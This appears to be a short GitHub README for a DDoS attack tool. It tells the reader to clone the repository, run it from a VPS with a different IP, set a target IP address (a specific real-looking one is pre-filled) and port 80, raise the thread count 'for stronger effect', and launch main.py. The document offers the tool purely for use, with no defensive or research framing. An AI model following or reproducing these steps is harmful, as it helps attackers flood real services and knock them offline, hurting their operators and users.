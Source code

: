 # Ddos
This is a Ddos Atacker???

# How Run it
need virtual machine or vps with different ip 
suggest : Ubuntu Server 24
clone repository :
```git clone https://github.com/shayanghad0/Ddos/```
then open ```main.py``` file
must change thease on lines 5 6
```python
target_ip = "104.21.88.251"  # Replace with the target IP
target_port = 80           # Replace with the target port
```
and this on line 19
```python
for i in range(500):  # High number of threads for stronger effect
```
then run project just this
```py/python/py3/python3 main.py```
if print ```attack is started``` your ddos is started
